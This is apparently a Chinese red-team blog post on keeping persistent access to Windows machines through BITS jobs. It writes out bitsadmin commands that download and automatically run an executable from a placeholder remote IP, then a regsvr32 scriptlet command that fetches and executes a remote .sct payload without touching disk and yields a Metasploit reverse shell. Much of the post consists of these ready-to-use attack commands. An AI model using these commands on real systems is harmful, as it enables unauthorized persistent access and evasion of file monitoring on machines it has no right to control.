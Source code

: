 ```yaml
---
layout:     post
title:    Windows权限维持-BITS
subtitle:   Windows权限维持-BITS
date:       2019-11-29
author:     hmoytx
header-img: img/bg_02.jpg
catalog: true
tags:
    - 渗透测试
    - 红队
    - 内网渗透
    - 权限维持
---
```

# Windows权限维持-BITS

### 简介
之前在下载payload中使用过BITS，BITS（后台智能传送服务），它可以在前台或后台异步传输文件，为保证其他网络应用程序获得响应而调整传输速度，并在重新启动计算机或重新建立网络连接之后自动恢复文件传输。Winodws提供了一个名为“bitsadmin”的工具，用于创建和管理文件传输。这里主要讲一下BITS在权限维持中的使用。    

### BITS使用
详细的可以查看官方文档，这里只是粗略的讲一下。  [文档地址](https://docs.microsoft.com/zh-cn/windows-server/administration/windows-commands/bitsadmin-examples)  
分成5步：  
```
C:\>bitsadmin /create back
C:\>bitsadmin /addfile back "http://xxx.xxx.xxx.xxx/1.exe" "C:\tmp\1.exe"
C:\>bitsadmin /SetNotifyCmdLine back C:\tmp\1.exe NULL
C:\>bitsadmin /SetMinRetryDelay "back" 60
C:\>bitsadmin /resume back
```
1.创建名为back的传输作业。  
2.将远程的文件添加到back作业。  
3.在传输完成或者作业进入状态时，运行命令。  
4.设置遇到错误时最小等待时间（回调时间，单位秒）。 
5.激活队列中指定的作业。  
在cmd中执行后：  
![191129_1](/img/191129_bits1.png)  
![191129_2](/img/191129_bits2.png)  
然后会在对应目录直接多个tmp文件。  
![191129_3](/img/191129_tmp.png)  
然后查看下作业是否在队列中：  
![191129_4](/img/191129_bitslist.png)  
当然这样做有点不好的地方，会导致文件的落地。  

### BITS配合regsvr32
很多时候文件是被监控的，可以尝试使用regsvr32进行白名单执行payload，且文件是不落地的。  
开启msf进行监听配置：  
![191129_5](/img/191129_regsvrmsf.png)  
然后在cmd中运行:
```
C:\>bitsadmin /SetNotifyCmdLine back regsvr32 /s /n /u /i:http://xxx.xxx.xxx.xxx/VQbkeE0ijQ586bl.sct scrobj.dll
```
再重新激活作业。  
就可以在msf端接收到反弹，我这里不知道为什么又和之前一样崩了。  
![191129_6](/img/191129_msf.png)   

### 总结
白名单运行程序不仅仅只有regsvr32，还有别的很多，可以去查下资料。  